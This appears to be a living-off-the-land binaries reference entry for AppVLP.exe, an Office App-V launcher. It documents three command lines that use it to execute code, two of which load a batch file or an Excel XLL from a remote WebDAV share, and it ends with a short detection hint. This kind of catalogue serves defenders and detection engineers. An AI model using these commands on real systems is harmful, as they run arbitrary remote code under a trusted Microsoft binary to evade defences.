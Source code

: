 ## Appvlp.exe

* Functions: Execute

```
AppVLP.exe \\webdav\calc.bat   

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"    

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"    
```

Acknowledgements:
* Will - @moo_hax

Code sample:
* 

Resources:
* https://github.com/MoooKitty/Code-Execution
* https://twitter.com/moo_hax/status/892388990686347264

Full path:
```
"C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe"
```

Notes:
Used by App-V


Detection:
Appvlp.exe spawning other process

 
